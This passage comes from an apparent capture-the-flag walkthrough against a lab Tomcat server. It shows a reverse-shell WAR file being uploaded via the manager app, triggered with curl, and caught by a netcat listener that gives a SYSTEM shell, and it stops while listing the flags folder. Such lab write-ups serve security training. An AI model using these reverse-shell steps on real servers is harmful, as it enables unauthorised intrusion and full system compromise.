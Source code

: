 ```

root@kali# jar -ft rev_shell-9002.war
META-INF/
META-INF/MANIFEST.MF
WEB-INF/
WEB-INF/web.xml
ppaejmsg.jsp

```

Alternatively, if I wanted to use the web gui, I could click on the link without knowing the jsp name.

### Upload and Run

Now upload through the manager application, and then curl the page at `http://[host]/[war name]/[jsp]`:

```

root@kali# curl http://10.10.10.95:8080/rev_shell-9002/ppaejmsg.jsp

```

```

root@kali# nc -lnvp 9002
listening on [any] 9002 ...
connect to [10.10.15.83] from (UNKNOWN) [10.10.10.95] 49193
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

```

## Flags

With a shell as system, it’s easy to get both flags:

```

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)  27,450,302,464 bytes free

C:\Users\Administrator\Desktop>cd flags
cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop\flags
```